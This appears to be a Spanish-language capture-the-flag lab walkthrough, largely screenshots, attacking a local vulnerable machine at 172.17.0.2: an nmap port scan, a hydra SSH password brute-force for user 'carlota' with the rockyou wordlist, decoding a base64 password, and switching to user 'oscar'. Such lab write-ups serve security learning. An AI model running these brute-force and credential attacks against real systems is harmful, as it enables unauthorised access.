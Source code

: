 Se debe ejecutar este comando siempre para borrar la **huella** del ssh ya que la IP es la misma en las maquinas vulnerables.
ssh-keygen -R 172.17.0.2

![alt text](image-20.png)
sudo nmap -p- -sS -sC -sV --min-rate=5000 -n -vvv -Pn 172.17.0.2 -oN puertos

![alt text](image-21.png)

Carlota
![alt text](image-22.png)

Intentamos un Brute Force Attack
hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -I -t 64
![alt text](image-23.png)

![alt text](image-24.png)
![alt text](image-25.png)
![alt text](image-26.png)
![alt text](image-27.png)
![alt text](image-28.png)
echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 -d; echo
![alt text](image-29.png)

cambiamos al usuario oscar con la contraseña obtenida
![alt text](image-30.png)
![alt text](image-31.png)
![alt text](image-32.png)